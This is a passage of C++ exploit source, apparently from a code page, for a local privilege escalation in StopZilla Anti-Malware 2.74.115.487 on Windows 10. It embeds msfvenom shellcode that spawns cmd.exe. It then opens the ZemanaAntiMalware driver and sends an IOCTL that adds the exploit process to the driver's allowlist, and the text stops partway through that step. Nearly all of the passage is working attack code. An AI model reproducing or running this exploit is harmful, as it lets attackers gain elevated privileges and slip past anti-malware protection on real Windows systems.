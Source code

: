 ```c++
	printf("      StopZilla Anti-Malware 2.74.115.487 Arbitrary Write To Local Privilege Escalation \n");
	printf("                              Tested on Windows 10 20H2                                 \n");
	printf("                                   RashidKhan Pathan                                  \n\n");

	HANDLE hDevice, hWinlogon = 0;
	DWORD exploitPID = 0;
	DWORD winlogonPID = 0;
	DWORD disbleZAM = 0;
	DWORD disbleRealTime;
	bool success = 0;
	LPVOID destMem = NULL;
	SIZE_T written = 0;

	/*msfvenom -p windows/x64/exec CMD=cmd.exe EXITFUNC=thread -f c*/
	unsigned char shellcode[] =
		"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
		"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
		"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
		"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
		"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
		"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
		"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
		"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
		"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
		"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
		"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
		"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
		"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
		"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
		"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
		"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
		"\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
		"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
		"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
		"\xd5\x63\x6d\x64\x2e\x65\x78\x65\x00";

	// Obtaining Driver Handle Name Using CreateFileA()
	printf("[*] Obtaining Device Driver Handle \n");
	hDevice = CreateFileA("\\\\.\\ZemanaAntiMalware", GENERIC_READ | GENERIC_WRITE , NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (!hDevice)
	{
		printf("[-] Error - Unable To Obtain Device Driver Handle \n", GetLastError());
		return -1;
	}
	printf("\t[+] Obtained Driver Handle 0x%p \n", hDevice);

	// Getting PID From All Processes Using getProcessId() Function;
	exploitPID = GetCurrentProcessId();
	if (!exploitPID)
	{
		printf("[-] Faild To Get Exploit Process ID \n", GetLastError());
		return -1;
	}
	printf("[+] Exploit Process ID \n", exploitPID);

	// Adding Process To Allowlist
	success = DeviceIoControl(hDevice, 0x80002010, &exploitPID, sizeof(exploitPID), NULL, 0, NULL, NULL);
	if (!success)
```